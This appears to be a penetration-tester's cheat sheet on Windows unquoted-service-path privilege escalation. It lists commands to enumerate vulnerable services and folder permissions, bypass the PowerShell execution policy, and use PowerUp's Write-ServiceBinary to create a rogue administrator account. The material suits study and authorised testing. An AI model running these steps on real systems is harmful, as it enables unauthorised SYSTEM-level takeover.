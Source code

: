 ```yaml
---
description: Unquoted Service Paths – Windows Privilege Escalation
---
```


# Unquoted Service Path

In simple terms, when a service is created whose executable path contains spaces and isn't enclosed within quotes, leads to a vulnerability known as Unquoted Service Path which allows a user to gain SYSTEM privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).

### Manual Checks

Check service without quotes:

{% code overflow="wrap" %}
```powershell
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

# or via Powershell

Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName
```
{% endcode %}

Check File or Directory Permissions:

{% code overflow="wrap" %}
```powershell
icacls C:\
icacls "C:\Program Files\Some Vuln Service"
powershell "get-acl -Path 'C:\Program Files\Some Vuln Service' | format-list"

# or using SysInternals AccessChk
.\accesschk64.exe -wvud "C:\" -accepteula
.\accesschk64.exe -wvud "C:\Program Files\Some Vuln Service" -accepteula
```
{% endcode %}

Check Service Permissions:

{% code overflow="wrap" %}
```powershell
# cmd
sc query VulnService
sc qc VulnService

# restart
sc stop VulnService
sc start VulnService
```
{% endcode %}

### Automated Script with PowerUp

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
Import-Module PowerUp.ps1

Invoke-AllChecks
Get-ServiceUnquoted
Get-ServiceDetail "VulnService"
# exploit
Write-ServiceBinary -Name VulnService -Path "C:\Program Files\Some.exe" -UserName unquoted-user -Password Password123!

# restart from CMD
sc qc VulnService
sc stop VulnService
sc start VulnService

# check if user created
net users
net localgroup Administrators
```
{% endcode %}
